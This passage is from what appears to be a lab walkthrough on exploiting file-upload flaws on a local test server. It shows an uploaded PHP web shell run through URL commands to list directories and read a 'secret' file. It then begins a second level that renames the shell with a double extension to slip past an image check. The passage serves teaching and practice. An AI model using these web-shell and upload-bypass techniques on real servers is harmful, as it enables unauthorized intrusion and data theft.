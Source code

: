 Visit `http://192.168.56.102/uploads1/php-microshell.php?cmd=pwd`

![A14](https://i.imgur.com/VLFmENl.png)


We have successfully injected a command! This proves we could cause all sorts of trouble on the webserver. We could read files, start a reverse shell, download malware, install another backdoor, or  anything else we want! This is a BIG vulnerability.


Let’s see what else we can find out about the website. If we jump out one directory and run `ls`,  we’ll be able to see what other directories this website has to offer.


Visit`http://192.168.56.102/uploads1/php-microshell.php?cmd=cd .. ; ls`


![A15](https://i.imgur.com/3XWjRY4.png)


All of those seem like they’d belong on a normal website, except for "l337saucel337"- let’s see what it has to offer. Now that we know that this directory exists, we COULD just view it in the browser… but that’s no fun! Let’s use our shell to view it instead.


`http://192.168.56.102/uploads1/php-microshell.php?cmd=ls -l ../l337saucel337`

![A16](https://i.imgur.com/IRVYXhG.png)

Well, that’s obviously meant for us to leave alone and not bother with. I mean, it IS a secret. 

`http://192.168.56.102/uploads1/php-microshell.php?cmd=cat%20../l337saucel337/SECRETFILE`

Hey! That was a secret! Stop that!


Alright, we have two more uploaders to try, so lets go to `http://192.168.56.102/index2.html` and try the next one!




## Level Two 

Visit `http://192.168.56.102/index2.html`

This looks pretty similar. We already know about /uploads2, so we shouldn’t have to enumerate as much here.
Let’s go ahead and try to upload our microshell again, just to see if we can.

![A17 – phpdenied](https://i.imgur.com/AFkVGHr.png)


This uploader must be checking to see that our files really are images.

Let’s see if we can overcome this hurdle using caveman method and just append ".png" to the end of our script’s filename.


`cp php-microshell.php php-microshell.png.php`

